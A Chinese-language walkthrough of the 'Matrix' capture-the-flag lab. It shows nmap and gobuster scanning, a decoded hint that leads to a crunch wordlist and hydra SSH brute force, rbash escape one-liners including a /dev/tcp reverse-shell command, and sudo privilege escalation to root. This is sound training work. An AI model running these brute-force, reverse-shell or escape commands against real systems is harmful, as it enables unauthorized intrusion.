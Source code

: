 Matrix
===

### Nmap 扫描

#### 主机发现

![1-1.png](1-1.png)

![1-2.png](1-2.png)

#### 端口扫描

![1-3.png](1-3.png)

![1-5.png](1-5.png)

![1-4.png](1-4.png)

![1-2.png](1-2.png)

访问一下这个地址。

![1-7.png](1-7.png)

### 信息收集

端口扫描没有直接暴露出明显的攻击面, 先着手调查一下 80 端口这个网站。

#### 目录爆破

看一下控制台, 调整爆破的指令:

```bash
sudo gobuster dir -u http://192.168.170.150 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x js,json,env,config.js,log,map
```
![2-1.png](2-1.png)

没有太多结果。

#### 查看源码

调出控制台观察一下:

![2-2.png](2-2.png)

看到网站后台有 `/assets/img/p0rt_31337.png` 这个文件, 提示前往之前扫到的 31337 端口。先下载这个图片, 这个图片可能会隐藏某些信息, 比如图像隐写 (虽然可能性比较小)。

![2-3.png](2-3.png)

![2-4.png](2-4.png)

#### 31337 端口服务

尝试一下目录遍历漏洞 (`../../etc/passwd`), 直接跳转到 `192.168.170.150:31337/etc/passwd` , 应该是被过滤掉了。

接下来精确探测一下 31337 端口上的服务, 并访问这个地址。

![3-1.png](3-1.png)

```bash
sudo nmap -sV -p31337 192.168.170.150
```
---

对 31337 端口再进行一次目录爆破:

```bash
sudo gobuster dir -u http://192.168.170.150:31337 --word-list
```

![3-3.png](3-3.png)

报错非常有意思, 因超时未能收到服务器的响应头。然而 `index.html`, 也就是这个主界面上的资源都能正常扫出来, 结合主页这一排字:

    `You know.. I know this steak doesn't exist. I know when I put it in my mouth; the Matrix is telling my brain that it is juicy, and delicious. After nine years.. you know what I realize? Ignorance is bliss.`

说明有可能需要在时间方面改包。

![3-2.png](3-2.png)

先看看其他方面的线索, 查看网页源码, 有一排比较可疑的 base64 编码:

![3-4.png](3-4.png)

解码后是: *echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix*。也就是把这段话打进 `Cypher.matrix` 这个文件。

![3-5.png](3-5.png)

搜一下这段代码, 显示是一段 `brain f**k` 代码, 将其解码后得到: *"You can enter into matrix as guest, with password k1ll0rXX
Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password."*

也就是直接给出了 `guest` 用户可能的密码组合。

### 密码爆破

根据自带字典, 用 `crunch` 生成 8 位字典:

```bash
crunch 8 8 -f /usr/share/crunch/charset.lst lalpha-numeric-sv -t k1ll0r@@ > pass.dic
```

> `-f`: 指定字符集; `-t`: 插入小写字符; `>` 写入文件。

用 `hydra` 进行爆破:

```bash
hydra -l guest -P pass.dic ssh://192.168.170.150 -f -o ssh.txt
```

![3-6.png](3-6.png)

得到口令 `k1ll0r7n`。接下来使用 ssh 连接到 guest 用户:

![3-7.png](3-7.png)

### Linux 提权

现在已经拿到了 Guest 的 shell, 下一步是着手进行 Linux 提权操作。先确认用户和地址:

![4-1.png](4-1.png)

发现无法识别指令, 并且返回了 `-rbash` (restricted bash), 表明是受限制的 shell。

#### rbash 逃逸

查看当前环境, 确认是 rbash:

```bash
echo $PATH
echo $SHELL
```

![4-2.png](4-2.png)

试试常用 rbash 逃逸方式:

```bash
# 使用 ssh/scp 逃逸
ssh guest@localhost -t bash --noprofile
scp -S /bin/bash x x

# 使用 Python
python -c 'import os; os.system("/bin/bash")'

# 使用 awk
awk 'BEGIN {system("/bin/bash")}'

# 使用 find
find / -exec /bin/bash \;

# 使用 curl 下载反弹 shell
echo 'bash -i >& /dev/tcp/192.168.170.150/4444 0>&1' | bash

# 使用 vi 进行逃逸
vi
#!/bin/bash
```

![4-3.png](4-3.png)

`vi` 指令是允许的, 因此可以用 `vi test` 来完成提权。在界面中, 使用 `:!` 可以执行外部命令, 因此 `:!/bin/bash` 即可。

>   原理:由于 rbash 只限制了通过 bash 启动的命令，而**通过 vi 启动的子进程（这里是新的 bash ）并不继承父进程的 rbash 限制**（除非有特殊的环境设置），所以新启动的 bash 是非受限的。

![4-4.png](4-4.png)

可以看到之前无法使用的 `ls` 指令已经有正常显示, 逃逸成功。

![4-5.png](4-5.png)

---

>   为什么 `echo $SHELL` 仍显示 rbash？
>   -   环境变量 `$SHELL` 未更新：
>   -   `$SHELL` 是环境变量，不是当前 shell 的实时状态指示器, 它记录的是登录时使用的初始 shell，而不是当前运行的 shell
>   -   从 rbash 启动的新 bash 会继承父进程的环境变量

---

接下来需要修正环境变量, 就可以得到完整的 shell。

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

![4-6.png](4-6.png)

#### 尾声

输入 `sudo -l` , 看见  `(ALL)ALL`, 那么很好了, 直接使用 `sudo su` 即可提权完成。

![4-7.png](4-7.png)

>   注意是 `sudo su` 而不是 `su`, 因为刚刚的 `sudo -l` 已经发现 guest 账户有权限直接进行 `sudo su` 操作 (回显 `(ALL)ALL`), 这两者最主要的区别是, `su` 需要验证的是 root 账户的密码, 而 `sudo su` 验证的是 guest 账户 (当前) 的。

![5.png](5.png)

到此， 渗透结束。

### 总结

-   思路:
Web源码分析 → 编码解密 → 凭据爆破 → 环境逃逸 → 权限提升

-   涵盖的主要渗透技术点:
    -   服务识别与信息收集（nmap、gobuster）
    -   Web 信息分析与源码挖掘（隐藏资源、base64）
    -   编码与信息提取（base64、brainfuck）
    -   SSH 爆破（crunch、hydra）
    -   限制 shell 环境逃逸（rbash bypass）
    -   环境变量修复（$PATH）
    -   本地提权（sudo 利用）
    -   最终 root 权限获取
 
